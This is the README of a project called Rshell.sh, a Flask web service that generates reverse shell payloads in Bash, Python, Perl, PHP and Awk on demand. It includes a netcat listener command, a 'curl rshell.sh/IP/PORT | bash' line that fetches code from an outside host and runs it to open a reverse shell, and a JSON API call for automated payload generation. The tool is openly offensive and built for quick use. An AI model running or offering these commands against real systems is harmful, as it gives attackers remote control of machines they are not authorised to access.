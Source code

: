 # Rshell.sh Reverse Shell Payloads aaS

[Live Site!](https://rshell.sh)

## Overview / How it works

This project is multi-language reverse shell payload generator written in
Python3 using the Flask web framework. The point is to make it easy to quickly
pull reverse shell payloads down from the *cloud* ☁️  to your terminal using
`curl` or `wget`. It also supports a robust JSON API to help the user integrate
automated remote reverse shell payload generation into their own applications.

## Basic Usage Info

### Example Usecase

* Setup you listener:

```
nc -lvnp 1234
```

* Then query [`rshell.sh`](https://rshell.sh) to kick off the reverse shell:

```
curl rshell.sh/127.0.0.1/1234 | bash
```

### Languages Covered

* Bash
* Python
* Perl
* PHP
* Awk

### Shells Covered

* bash
* csh
* ksh
* zsh

### API

```
curl -X POST https://rshell.sh/api \
    -H "Content-Type: application/json" \
    -sd '{"host":"10.0.0.1", "port":1234, "lang":"python", "shell":"zsh"}'
```

### Help Page

See the project __[help page](https://rshell.sh/help)__ for more information.

You can also read the help page in your terminal!

```
curl rshell.sh/help | less
```

## Dev Site Install / Setup

The server-side setup is pretty straight forward and this is run just like any
other flask app. Of course the instructions below are for spinning up the dev
version. Production setup involves extra steps and depends on your hosting
environment.

* First clone the repo:

```
git clone https://github.com/BlueSquare23/Rshell.sh
```

* Then install the required python modules:

```
cd Rshell.sh
virtualenv venv             # Virtual Env Optional
source venv/bin/activate    # Virtual Env Optional
pip3 install -r requirements.txt
```

* Finally, run the project:

```
python3 app.py
```

### Testing

The test are written using [`pytest`](https://pytest.org/). You can run the
test code by cd'ing into the project's main directory and running pytest.

```
cd Rshell.sh
virtualenv venv             # Virtual Env Optional
source venv/bin/activate    # Virtual Env Optional
python3 -m pytest
```

## Technologies

* Language: [Python 3](https://www.python.org/)
* Web-Framework: [Flask](https://palletsprojects.com/p/flask/)

